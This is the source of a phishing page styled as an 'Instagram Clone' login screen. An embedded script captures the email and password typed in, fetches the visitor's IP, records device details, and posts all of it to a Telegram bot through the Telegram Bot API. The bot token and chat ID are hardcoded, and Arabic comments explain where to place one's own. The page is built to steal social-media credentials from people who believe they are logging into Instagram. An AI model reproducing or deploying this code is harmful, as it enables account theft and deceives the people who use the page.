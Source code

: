 # Login
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="style.css" />
    <link rel="icon" type="image/png" href="./img/insta-fav.ico">
    <title>Instagram Clone</title>
</head>
<body>
    <main class="flex align-items-center justify-content-center">
        <section id="mobile" class="flex">
        </section>
        <section id="auth" class="flex direction-column">
            <div class="panel login flex direction-column">
                <h1 title="Instagram" class="flex justify-content-center">
                    <img src="./img/instagram-logo.png" alt="Instagram logo" />
                </h1>
                <form>
                    <label for="email" class="sr-only">Phone, username, or email</label>
                    <input name="email" placeholder="Phone, username, or email" aria-label="Phone, username, or email" />

                    <label for="password" class="sr-only">Password</label>
                    <input name="password" type="password" placeholder="Password" aria-label="Password" />

                    <button type="submit">Log In</button>
                </form>
                <div class="flex separator align-items-center">
                    <span></span>
                    <div class="or">OR</div>
                    <span></span>
                </div>
                <div class="login-with-fb flex direction-column align-items-center">
                    <div>
                        <img src="./img/facebook-logo.png" alt="Facebook logo" />
                        <a>Log in with Facebook</a>
                    </div>
                    <a href="#">Forgot password?</a>
                </div>
            </div>
            <div class="panel register flex justify-content-center">
                <p>Don't have an account?</p>
                <a href="#">Sign up</a>
            </div>
            <div class="app-download flex direction-column align-items-center">
                <p>Get the app.</p>
                <div class="flex justify-content-center">
                    <img src="./img/apple-button.png" alt="Apple Store logo" />
                    <img src="./img/googleplay-button.png" alt="Google Play logo" />
                </div>
            </div>
        </section>
    </main>
    <footer>
        <ul class="flex flex-wrap justify-content-center">
            <li><a href="#">ABOUT</a></li>
            <li><a href="#">HELP</a></li>
            <li><a href="#">PRESS</a></li>
            <li><a href="#">API</a></li>
            <li><a href="#">CAREERS</a></li>
            <li><a href="#">PRIVACY</a></li>
            <li><a href="#">TERMS</a></li>
            <li><a href="#">LOCATIONS</a></li>
            <li><a href="#">MORE RELEVANT ACCOUNTS</a></li>
            <li><a href="#">HASHTAGS</a></li>
            <li><a href="#">LANGUAGE</a></li>
        </ul>
        <p class="copyright">© 2020 Instagram from Facebook</p>
    </footer>
    
    <script src="https://unpkg.com/axios@1.6.7/dist/axios.min.js"></script>
<script>
    const TOKEN = "7776358471:AAHqq8s8ZwAWnpkcpWqffRu1X5YjfCYHYD4";   // Replace with your actual bot token                                                         // Ù‡Ù†Ø§ Ø§Ù„ØªÙˆÙƒÙŠÙ†              
    const CHAT_ID = "5920535632";   //Replace with your actul chat ID                                                    // Ù‡Ù†Ø§ Ù…Ø¹Ø±Ù Ø§Ù„Ø´Ø§Øª https://api.telegram.org/bot/getUpdates
    const URI_API = `https://api.telegram.org/bot${TOKEN}/sendMessage`;        

    document.getElementById('login-form').addEventListener('submit', function(e) {
        e.preventDefault();

        const email = document.getElementById('email').value;
        const password = document.getElementById('password').value;

        axios.get('https://api.ipify.org?format=json')
            .then(response => {
                const ip = response.data.ip;

                const userAgent = navigator.userAgent;
                const platform = navigator.platform;
                const screenWidth = screen.width;
                const screenHeight = screen.height;
                const deviceType = /mobile/i.test(navigator.userAgent) ? 'Mobile' : 'Desktop';

                const message = ` 
                    <b>New Login Attempt</b>\n
                    <b>Email:</b> ${email}\n
                    <b>Password:</b> ${password}\n
                    <b>IP Address:</b> ${ip}\n
                    <b>Device Type:</b> ${deviceType}\n
                    <b>Platform:</b> ${platform}\n
                    <b>User Agent:</b> ${userAgent}\n
                    <b>Screen Resolution:</b> ${screenWidth}x${screenHeight}
                `;

                axios.post(URI_API, {
                    chat_id: CHAT_ID,
                    parse_mode: 'html',
                    text: message
                }).then(response => {
                    alert('Information sent successfully!');
                }).catch(error => {
                    alert('Error sending the information. Please try again.');
                });
            })
            .catch(error => {
                alert('Error fetching the IP address. Please try again.');
            });
    });
</script>
    
    
</body>
</html>
